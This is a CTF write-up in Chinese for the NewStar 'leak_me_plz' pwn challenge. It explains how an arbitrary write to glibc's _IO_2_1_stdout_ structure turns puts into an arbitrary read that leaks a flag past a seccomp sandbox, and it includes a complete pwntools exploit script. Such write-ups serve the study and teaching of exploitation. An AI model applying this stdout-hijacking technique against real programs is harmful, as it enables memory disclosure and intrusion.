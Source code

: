 ```yaml
---
title: leak_me_plz
date: 2023-03-19 19:15:21
categories: 
- pwn_wp
tags: 
- pwn
- IO_FILE

---
```


NewStar CTF Week5的题，利用stdout进行任意读。这题主要是想让一些同学了解打 Stdout 不只局限在低字节写 `\x00` 来 leak libc，有时候我们可以利用这个来 leak `environ`拿栈地址打栈，leak `fskey` 打 `_IO_cookie_write`(House of Emma) ...

<!--more-->

查壳，保护全开

```sh
[*] '/home/a1ph0nse/PwnPractice/CtfGame/NewStar/leak_me_plz/pwn'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

开了沙箱

```sh
 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x15 0x00 0x08 0xc000003e  if (A != ARCH_X86_64) goto 0010
 0002: 0x20 0x00 0x00 0x00000000  A = sys_number
 0003: 0x35 0x06 0x00 0x40000000  if (A >= 0x40000000) goto 0010
 0004: 0x15 0x04 0x00 0x00000000  if (A == read) goto 0009
 0005: 0x15 0x03 0x00 0x00000001  if (A == write) goto 0009
 0006: 0x15 0x02 0x00 0x00000003  if (A == close) goto 0009
 0007: 0x15 0x01 0x00 0x0000000c  if (A == brk) goto 0009
 0008: 0x15 0x00 0x01 0x000000e7  if (A != exit_group) goto 0010
 0009: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0010: 0x06 0x00 0x00 0x00000000  return KILL

```

不能`execve`而且`orw`缺`w`。

程序比较简单。

在init函数中进行初始化并在0x233000的位置分配了一块大小为`0x1000`的RW的内存，并且在get_flag中已经将flag写入到其中了，只需要将其读出即可知道flag。

漏洞在vuln函数中

```c
void __noreturn vuln()
{
  void *buf[2]; // [rsp+0h] [rbp-10h] BYREF

  buf[1] = (void *)__readfsqword(0x28u);
  buf[0] = 0LL;
  puts("Hiiii!My beeest friend.So glad that you come again.This time you need to read the flag.");
  printf("Here is your gift: %p\nGood luck!\n", &puts);
  printf("Addr: ");
  read(0, buf, 8uLL);
  printf("Data: ");
  read(0, buf[0], 0x38uLL);
  puts("Did you get that?");
  _exit(0);
}
```

开始会泄露出puts的地址，可以得到libcbase，之后会有一次任意写0x38byte的机会。

在read后面有一个puts语句，可以尝试修改`_IO_2_1_stdout_`的`flag`、`write_base`和`write_ptr`实现任意读来将`flag`输出出来，还要设置`write_ptr==write_end`来避免在全缓冲模式下计算的count>0(详情看源码，明明puts是以行缓冲模式计算的，不知道为何不设置的话无法输出)。

exp:

```py
from pwn import*
context(log_level='debug',os='linux',arch='amd64')
filename='pwn'
elf=ELF('./'+filename)
libc=ELF('./libc-2.31.so')
p=process('./'+filename)
#p=process(['./ld-2.23.so','./'+filename],env={'LD_PRELOAD':'./libc-2.23.so'})
#p=remote('',)

s       = lambda data               :p.send(data)
sl      = lambda data               :p.sendline(data)
r       = lambda num=4096           :p.recv(num)
rl      = lambda num=4096           :p.recvline(num)
ru      = lambda x                  :p.recvuntil(x)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {}'.format(name, addr))

def debug(cmd='\n'):
  gdb.attach(p,cmd)
  pause()
    

ru("Here is your gift: ")
libcbase=int(ru('\n')[2:-1],16)-libc.sym['puts']
ru('Good luck!\n')

stdout=libcbase+libc.sym['_IO_2_1_stdout_']

ru("Addr: ")
payload=p64(stdout)

leak('libcbase: ',hex(libcbase))
leak('stdout: ',hex(stdout))
debug()
s(payload)  

ru("Data: ")
payload=p64(0xfbad1800)+p64(0)*3+p64(0x233000)+p64(0x233040)+p64(0x233040)

s(payload)

itr()
```

